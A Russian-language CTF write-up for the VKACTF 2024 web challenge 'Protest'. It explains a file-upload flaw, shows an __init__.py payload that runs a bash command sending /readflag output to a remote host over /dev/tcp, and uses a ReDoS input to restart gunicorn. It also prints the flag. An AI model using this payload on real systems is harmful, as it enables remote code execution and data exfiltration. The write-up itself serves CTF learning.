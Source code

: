 ## Protest

| Событие | Название | Категория | Сложность |
| :------ | ---- | ---- | ---- |
| VKACTF 2024 | Protest  | Web | Hard |

  
### Описание


> Автор: [ EGM ]
>
> Протесты в городе обычное дело, нужно их решать! Бери молоток и беги к рабочим на стоянку!


### Решение

1. Сервис позволяет переводить текстовые файлы в картинки, но имя файла проверяется по регулярке.
```
def check_filename(checked_file):
    random_uuid = str(uuid.uuid4())
    res = re.match(r'^[\.a-zA-Z0-9_-]([\.a-zA-Z0-9_-]+)*$', checked_file)
    safe_filename = random_uuid if res is None else checked_file
    return safe_filename
```

2. Из скрипта ```run.sh``` ,понимаем, что сервер поднимается с помощью ```gunicorn``` сервера.

3. Использем при загрузке файл ```__init__.py``` с нагрузкой которая отправит файл на свой сервер
```
"__import__('os').system('bash -c "/readflag>/dev/tcp/host/port"')"
```

5. Необходимо перегрузить ```gunicorn```, чтобы выполнился новый ```__init__.py``` файл. Воспользуемся redos на 
```
r'^[\.a-zA-Z0-9_-]([\.a-zA-Z0-9_-]+)*$'
aaaaaaaaaaaaaaaaa!
```
5. Сервер перезагрузится с новым ```__init__.py``` файлом и отправит флаг на ваш сервер. 

### Эксплоит
[ez_exploit.py](../give/ez_exploit.py)

### Флаг

```
vka{6Un1p0rn_0r_Pun1c0rn}
```
